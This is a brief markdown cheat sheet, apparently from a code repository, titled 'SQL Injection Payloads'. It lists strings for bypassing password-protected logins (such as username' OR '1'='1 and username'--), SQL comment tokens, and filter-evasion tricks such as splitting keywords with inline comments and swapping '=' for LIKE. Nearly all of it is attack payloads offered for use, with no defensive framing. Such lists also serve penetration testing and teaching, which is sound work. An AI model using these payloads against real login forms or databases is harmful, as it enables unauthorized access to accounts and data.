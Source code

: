 # SQL Injection Payloads
## Bypass password
These commands can be used to try and bypass password restricted logins
```sql
username' OR '1'='1
username'
username'--
```

## Comments
```sql
--
#
/* *
```

## Filter Bypass
```sql
SEL/**/ECT
' like '-- Use this instead of '='
```
